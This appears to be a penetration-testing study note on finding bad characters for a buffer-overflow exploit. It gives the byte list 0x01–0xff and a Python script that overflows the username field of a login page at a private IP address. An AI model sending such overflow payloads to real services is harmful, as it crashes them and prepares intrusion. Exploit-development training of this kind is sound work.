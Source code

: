 Badchar form 1 byte to (0xff)

#### **Generate BadChar from 1 to 0xff**

{% code overflow="wrap" %}
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
                                                            
```
{% endcode %}

#### Add badchar in exploit code&#x20;

```python
#!/usr/bin/python
import socket
badchar = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e"
"\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d"
"\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c"
"\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b"
"\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69"
"\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78"
"\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87"
"\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96"
"\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5"
"\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4"
"\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2"
"\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

inputBuffer ="A"*780+'BBBB'+badchar+'C'*(1500-len(badchar)-780-4)

payload = "username=" + inputBuffer + "&password=A"
req=""
req = "POST /login HTTP/1.1\r\n"
req += "Host: 192.168.1.5\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Referer: http://192.168.1.5/login\r\n"
req += "Connection: close\r\n"
req += "Content-Type: application/x-www-form-urlencoded\r\n"
req += "Content-Length: "+str(len(payload))+"\r\n"
req += "\r\n"
req += payload

print req
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.1.5", 80))
s.send(req)
```